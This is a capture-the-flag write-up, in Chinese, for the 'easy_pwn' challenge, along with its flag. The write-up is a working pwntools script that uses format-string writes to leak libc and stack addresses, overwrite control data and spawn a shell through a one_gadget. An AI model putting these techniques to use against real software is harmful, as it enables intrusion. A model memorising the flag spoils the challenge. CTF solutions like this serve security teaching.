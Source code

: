 - **题目名称：** easy_pwn
- **题目类型：** PWN
- **题目难度：**中等偏下
- **出题人：** she1p
- **考点：**

1. 修改_fini_array
2. 非栈上格式化字符串

- **描述：** 欢迎来到XSCTF SHOP
- **flag：** XSCTF{D0_Y0u_lik3_This_Chal1eng3}
- **Writeup：**

```python
#ubuntu22.04
from pwn import *
context(log_level='debug',arch='amd64',os='linux')
p=process('./easy_pwn3')
#p=remote('',)
libc=ELF('./libc.so.6')
elf=ELF('./easy_pwn3')


main=0x401296

p.sendlineafter('do you want to shop?\n',b'yes')

def buy(payload):
    p.sendlineafter('What do you want to buy?\n',b'G')
    p.sendafter('but can we collect the goods to your home and leave your address conveniently.\n',payload)

one_gadget=[0x50a37,0xebcf1,0xebcf5,0xebcf8,0xebd52,0xebdaf,0xebdb3]

payload1=b'%150c%8$hhn-%11$p-%15$p'
buy(payload1)
p.recvuntil('-')
libc_base=int(p.recv(14),16)-0x29d90
success('libc_base:'+hex(libc_base))
p.recvuntil('-')
stack_addr=int(p.recv(14),16)-0x210
success('stack_addr:'+hex(stack_addr))
stack1=stack_addr%0x10000
success('stack1:'+hex(stack1))
#gdb.attach(p)
#pause()
payload2='%'+str(stack1)+'c%15$hn'+'%2c%33$hn'
buy(payload2)

p.sendlineafter('do you want to shop?\n',b'yes')
one1=(libc_base+one_gadget[0])%0x10000
success('one:'+hex(one1))
one2=((libc_base+one_gadget[0])>>16)%0x100
success('one2:'+hex(one2))
payload3='%'+str(one2)+'c%79$hhn%'+str(one1-one2)+'c%77$hn'
buy(payload3)
buy(b'a')
#gdb.attach(p)
#pause()

p.interactive()
```

